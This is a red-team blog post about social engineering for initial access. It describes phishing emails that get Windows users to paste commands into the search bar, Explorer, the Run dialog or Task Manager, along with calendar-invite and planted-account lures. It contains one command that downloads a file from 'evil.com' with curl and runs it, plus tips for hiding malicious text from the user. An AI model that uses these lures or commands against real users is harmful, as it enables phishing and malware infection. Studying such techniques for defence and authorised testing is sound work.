 ```yaml
---
title: Social Engineering Your Way Into The Network
date: "2022-07-03"
featuredImage: ''
---
```


This post discusses how an attacker can social engineer users in ways that go beyond the traditional methodology<!-- end -->.

# Introduction

Most organizations have some sort of security awareness training and I've seen some which are quite robust and effective. Although it does not make initial access impossible, it does make it more difficult and time consuming. Defenders and security vendors know what to expect when it comes to initial access. Matt Hand's <a href="https://posts.specterops.io/hang-fire-challenging-our-mental-model-of-initial-access-513c71878767" target="_blank">blog post</a> summarized initial access with the following statement:

> An attacker sends their thing. A user clicks the thing. The thing goes boom. The attacker has a callback.

To stop attackers you teach your users to avoid "clicking the thing" and build prevention and detection mechanisms with that statement in mind.

## Browser & OS Security

Additionally, default security controls for operating systems and browsers have made it increasingly difficult for users to download and execute files. 

For example, when a user lands on a phishing page and attempts to download a binary, Chrome will display a warning to the user. If the user ignores the warning and attempts to execute the binary then Windows SmartScreen will produce another warning to the user. All of these warnings may give users second thoughts before executing our malicious file during an engagement.

## Purpose

The purpose of this blog post is to try to come up with unexpected ways to social engineer users in order to increase our initial access success rate.

# Initial Access Via Copy-Paste

```Ctrl + C``` and ```Ctrl + V``` is part of everyone's day-to-day actions when using a computer. With that being said, security training programs don't warn users of the dangers when pasting commands in certain places on a Windows machine. Let's take advantage of this gap to help us potentially gain initial access on the machine.

## Windows Search Bar

**Tested on Windows 10. Doesn't work on Windows 11**.

If you didn't know, the Windows search bar allows you to execute commands. In the mind of most users it is considered a benign location which makes it a perfect location to have them paste a malicious command. Most users would not assume that by searching for something that they can unknowingly give remote access to their machine. Below is an example of what an attacker's email could say.

![Search-Email](./search-email.png)

When the user pastes the command, the Windows search bar will run it as a command instead.

![Search-Results](./search-results.png)

### Length Limit

The content the user pastes should be less than 255 characters.

## Windows Explorer

**Tested on Windows 10/11**.

Explorer's address bar is also a location that can be used to execute commands. An example email asking the user to paste a command in the Explorer address bar is shown below.

![Explorer](./explorer-email.png)

The user would need to paste the command as shown below.

![Explorer-Run](./explorer-run.png)

## Windows Run

**Tested on Windows 10/11**.

The Windows Run Dialog Box is also another option that users can paste our malicious commands in. It's simple to launch due to the built in shortcut ```Windows + R``` and has a relatively benign and generic looking input field. It is also common knowledge that the Windows Run Dialog Box is used to launch applications. On the other hand it is not common knowledge for the average user that pasting commands there can be dangerous.

Below is a sample email an attacker could send.

![Run-Email](./run-email.png)

The breakdown of the example command is shown below.

```
# Generic text to comfort the user
cmd /c echo Open company.pdf with the password: c0mp@ny123. &&

# Downloading the malicious file
cmd /c curl evil.com/company.pdf > %temp%\company.pdf && 

# Executing the file
%temp%\company.pdf
```

The command would be pasted into the Windows Run Dialog Box.

![Run-Dialog-Box](./run-box.png)

### Length Limit

The content the user pastes should be less than 260 characters.

## Task Manager

**Tested on Windows 10/11**.

The task manager also has a hidden field to run commands. An example email from an attacker would look like this.

![Task-Manager](./task-manager.png)

### Length Limit

The content the user pastes should be less than 260 characters.

## LOLBIN Compatible

Note that you're not limited to Cmd.exe or Powershell.exe when running commands, you can use LOLBINs instead.

![LOLBIN](./lolbin-1.png)

## Hiding The Malicious Command

To have a better success rate, your command should probably be inline with user expectations. Another option is to simply hide the malicious command by making the user<a href="https://www.bleepingcomputer.com/news/security/dont-copy-paste-commands-from-webpages-you-can-get-hacked/" target="_blank">unknowingly copy a benign command</a>.Furthermore, you can hide parts of the command by making it blend with the background color.

![Hidden-Text](./hidden-text.png)

# Calendar Invites

Calendar invites are another source of phishing that organizations don't train their users on sufficiently. I've personally had success with calendar invites and I found the two best approaches are:

1. Sending a calendar invite to the target with non-existent users from the company as particpants (e.g. someone.realistic@company.com).
2. Use faked .ics files as shown <a href="https://mrd0x.com/spoofing-calendar-invites-using-ics-files/" target="_blank">here (Gmail)</a> or <a href="https://www.exandroid.dev/2021/04/24/phishing-with-fake-meeting-invite/" target="_blank">here (Outlook)</a>.

![Invite](./invite.png)

# Establishing An Alternate Communication Channel

Users are commonly trained to never type away their credentials without double checking they're on the right website. But what if someone provides the user with credentials to a new email address or any other communication channel? This goes against the logic that users have been trained for.

![New-Account](./new-account.png)

In this example, the account may be pre-configured with malicious files on OneDrive or phishing emails in their inbox.

# Conclusion

Yes we would all like it if the user were to just download and execute our binary but sometimes it may take some added creativity to eventually reach our goal. In this post I've demonstrated several ways that you can throw a user off when it comes to initial access. I'm sure there's more out methods out there but I think this post helps you to think outside the box.